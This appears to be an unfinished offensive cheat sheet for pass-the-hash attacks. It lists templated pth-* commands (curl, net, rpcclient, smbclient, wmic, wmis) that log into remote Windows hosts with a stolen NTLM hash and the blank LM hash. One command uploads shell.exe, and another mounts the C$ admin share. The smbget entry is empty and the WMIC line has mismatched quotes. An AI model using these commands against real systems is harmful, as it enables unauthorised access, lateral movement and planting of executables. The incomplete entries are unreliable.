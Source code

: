 # Pass-The-Hash Toolkits

TODO: Fill the missing information

## 01 - cURL

`$ pth-curl -A <user_agent> -T shell.exe <URL> -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<ntlm_hash> //<IP>`

## 02 - Net

`$ pth-net -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<ntlm_hash> //<IP>`

## 03 - Rpcclient

`$ pth-rpcclient -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<ntlm_hash> //<IP>`

## 04 - Smbclient

`$ pth-smbclient -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<ntlm_hash> //<IP>/c$`

## 05 - Smbget

`$ pth-smbget`

## 06 - WMIC

`$ pth-wmic -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<ntlm_hash> //<IP> "<WQL Queries>'`

## 07 - WMIS

`$ pth-wmis -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee:<ntlm_hash> //<IP>`